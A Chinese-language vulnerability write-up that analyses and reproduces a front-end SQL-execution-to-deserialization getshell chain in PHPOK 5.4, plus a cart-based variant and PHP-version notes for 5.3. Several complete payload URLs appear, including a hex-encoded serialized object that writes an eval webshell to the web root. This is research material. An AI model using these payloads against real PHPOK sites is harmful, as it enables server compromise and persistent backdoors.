前言
今天抽空审了下PHPOK5.4发现很多洞都是在后台，前台的洞才是真理!!!!．也发现前台一处可疑的文件写入，但是必须配合后台的洞显得就很鸡肋，之后在研究下．
学长晚上发了篇PHPOK前台geshell遂分析复现．讲道理最近看RIPS很多洞的反序列都是从sql注入开始，有点巧合.(….
漏洞成因
- 不做判断过滤将用户输入的字段通过
array_merge存入危险数组中 - 任意执行SQL语句
- 从数据库中取出字段能够被反序列化
- 任意文件写入
漏洞分析
漏洞触发入口：framework/api/call_control.php
将用户输入json格式data值传入phpok函数

接着跟进:framework/phpok_tpl_helper.php

跟进framework/phpok_call.php phpok方法，在第102行中将用户输入的json格式rs存入$call_rs数组中
再通过第119行调用’type_id’键(可控)

接着代码执行到133执行函数

接下来就是找利用的函数,可调用函数$func可以查找framework/phpok_call.php文件中以下划线开头的函数如_sql,_arclist….
直接跟进_sql函数,会执行get_all，且其中$rs[‘sqlinfo’]可控，可以通过上面array_merge存入$rs数组中

最后代码会$rs[‘sqlinfo’]语句会代入query方法执行任意SQL语句

再找可以getshell的点，_fields函数出存在反序列化，反序列化的值是由数据库中带出.以前就关注过这里的反序列化，但是没有去深究如何控制这里的变量．

漏洞复现
执行任意sql语句
构造POP
1 |
|
1 | http://127.0.0.1/cms/phpok5.4/api.php?c=call&f=index&data={"m_picplayer":{"site":1,"type_id":"sql","sqlinfo":"INSERT INTO `phpok5`.`qinggan_fields`(`id`, `ftype`, `title`, `identifier`, `field_type`, `note`, `form_type`, `form_style`, `format`, `content`, `ext`, `search_separator`, `form_class`) VALUES (988, '988', 'test', 'test', 'varchar', 'test', 'text', 'test', 'safe', 'test',0x4f3a353a226361636865223a333a7b733a393a22002a006b65795f6964223b733a363a226f73776f7264223b733a31313a22002a006b65795f6c697374223b733a34353a2261616161614944772f63476877494756325957776f4a46395154314e555732397a643239795a4630704f7a382b223b733a393a22002a00666f6c646572223b733a36383a227068703a2f2f66696c7465722f77726974653d737472696e672e73747269705f746167737c636f6e766572742e6261736536342d6465636f64652f7265736f757263653d223b7d,'test', 'test')"}} |

打入如下payload
由于最后从qinggan_fields表中取出的数据是从qinggan_module表中依据module字段取数据,在满足IF语句从qinggan_module表取的数据需要带status,module，该处module字段值后前面打入payload的ftype值相同，具体原因可以自行调试
1 | http://127.0.0.1/cms/phpok5.4/api.php?c=call&f=index&data={"m_picplayer":{"site":1,"type_id":"sql","sqlinfo":"INSERT INTO `phpok5`.`qinggan_project` (`id`,`module`,`status`,`site_id`,`title`,`nick_title`,`tpl_index`,`tpl_list`,`tpl_content`,`ico`,`orderby`,`alias_title`,`alias_note`,`identifier`,`seo_title`,`seo_keywords`,`seo_desc`,`admin_note`,`post_tpl`,`etpl_admin`,`etpl_user`,`etpl_comment_admin`,`etpl_comment_user`,`tag`,`list_fields`,`style`) values(988,988,66,1,'test','test','test','test','test','test','test','test','test','test','test','test','test','test','test','test','test','test','test','test','test','test')"}} |


在执行即可在网站根目录生成shell
1 | http://127.0.0.1/cms/phpok5.4/api.php?c=call&f=index&data={%22m_picplayer%22:{%22site%22:1,%22type_id%22:%22fields%22,%22pid%22:988}} |

其他利用链
有一处利用比较繁琐,但是有任意sql语句执行
限制：需要一个前台会员账户,或者通过任意sql注入得到用户session_id
漏洞位置：framework/model/cart.php
因为$val最后是从数据库中取出,所以可以通过任意sql语句修改数据库达到getshell目的

操作购物车需要判断身份,如果没有账号,可以通过sql注入注出
qinggan_cart的session_id字段
当然这里也可以直接越权,直接到后台,就有一大堆洞


最后满足需要的其他条件,修改qinggan_freight_price表中price字段,就可以执行代码
1
http://127.0.0.1/cms/phpok5.4/api.php?c=call&f=index&data={"m_picplayer":{"site":1,"type_id":"sql","sqlinfo":"update `phpok54`.`qinggan_freight_price` set price=0x706870696E666F28293B2F2F4E where zid=25"}}


phpok 5.3
环境：在form_type=’url’情况下,php5.6无法成功，php7.3成功,php7.0能够写文件但是文件中没内容
反序列化之后会调用,改行会去取$value['content']对象中的属性，造成无法成功调用爆ERROR程序终止，，无法成功执行__destruct
1 | $url = $this->site['url_type'] == 'rewrite' ? $value['content']['rewrite'] : $value['content']['default']; |

七月火师傅解决了再借作者评论回复，这里填下坑


可以在本地测试下，如果调用不到对象数组属性会造成什么情况
如下可以得出，由于$a调用了不存在属性值，爆Error,而无法成功执行__destruct

但是这里又有个坑，在phpok5.3中7.3可以即使报错依然继续执行代码
php7.3环境下，执行__get 再执行三元式返回null,程序继续执行

exp
适用php7.3
1 |
|
适用php5.6,php7.3
1 |
|